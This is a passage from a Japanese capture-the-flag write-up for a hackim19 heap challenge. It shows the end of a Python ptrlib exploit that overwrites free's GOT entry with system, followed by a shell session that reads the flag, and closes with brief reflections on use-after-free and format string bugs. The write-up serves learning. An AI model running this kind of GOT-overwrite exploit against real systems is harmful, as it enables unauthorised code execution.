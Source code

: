 ```python

add(0xf8, p64(elf.got("free")), 123)
add(0xf8, "?", 123)
add(0xf8, p64(addr_system), 123)

remove(3)
sock.interactive()
```

```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:4002

[ptrlib] libc base = 0x7f702a4c4000
[ptrlib]$ ls
challenge
flag
[ptrlib]$ cat flag
hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}
[ptrlib]$ ^C[+] close: Connection to 127.0.0.1:4002 closed
```

公式writeup(?)によるとGOTの書き換えにFSBを使うらしいです。
スタックにrightsが存在しているっぽく書かれていて原理が分からなかったけど解けたからOK。

# 感想
Format String BugってIDAで眺めててもなかなか気付かないですよね。
まだ解くのに時間はかかりますが、ヒープ系の問題がだんだん解けるようになって楽しい。
